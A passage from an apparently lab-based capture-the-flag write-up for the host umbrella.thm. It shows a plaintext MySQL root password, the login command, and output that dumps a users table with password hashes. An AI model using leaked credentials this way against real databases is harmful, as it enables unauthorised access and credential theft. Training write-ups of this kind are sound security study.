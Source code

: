              "signature": "cioGDTnJoniTBlFoHypoqQGl4T_QN5bFfhjzmLkF8JlnxQXVNjSBgoMypep3Gp1z5yxHhVq_BkFpZ_pS2ahZCA",
             "protected": "eyJmb3JtYXRMZW5ndGgiOjE2NDY2LCJmb3JtYXRUYWlsIjoiQ24wIiwidGltZSI6IjIwMjQtMDEtMjNUMDc6MzE6MzhaIn0"
          }
       ]
    }                                                                                                                    

## MySQL Access and Hash Cracking

Access MySQL databases, password for mysql `Ng1-f3!Pe7-e5?Nf3xe5`

`mysql -h umbrella.thm -u root -p`

    Welcome to the MariaDB monitor.  Commands end with ; or \g.
    Your MySQL connection id is 6
    Server version: 5.7.40 MySQL Community Server (GPL)
    
    Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.
    
    Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
    
    MySQL [(none)]> show databases;
    +--------------------+
    | Database           |
    +--------------------+
    | information_schema |
    | mysql              |
    | performance_schema |
    | sys                |
    | timetracking       |
    +--------------------+
    5 rows in set (0.120 sec)
    
    MySQL [(none)]> use timetracking;
    Reading table information for completion of table and column names
    You can turn off this feature to get a quicker startup with -A
    
    Database changed
    MySQL [timetracking]> show tables;
    +------------------------+
    | Tables_in_timetracking |
    +------------------------+
    | users                  |
    +------------------------+
    1 row in set (0.120 sec)
    
    MySQL [timetracking]> select * from users;
    +----------+----------------------------------+-------+
    | user     | pass                             | time  |
    +----------+----------------------------------+-------+
    | claire-r | 2ac9cb7dc02b3c0083eb70898e549b63 |   360 |
    | chris-r  | 0d107d09f5bbe40cade3de5c71e9e9b7 |   420 |
    | jill-v   | d5c0607301ad5d5c1528962a83992ac8 |   564 |
    | barry-b  | 4a04890400b5d7bac101baace5d7e994 | 47893 |
    +----------+----------------------------------+-------+
    4 rows in set (0.119 sec)
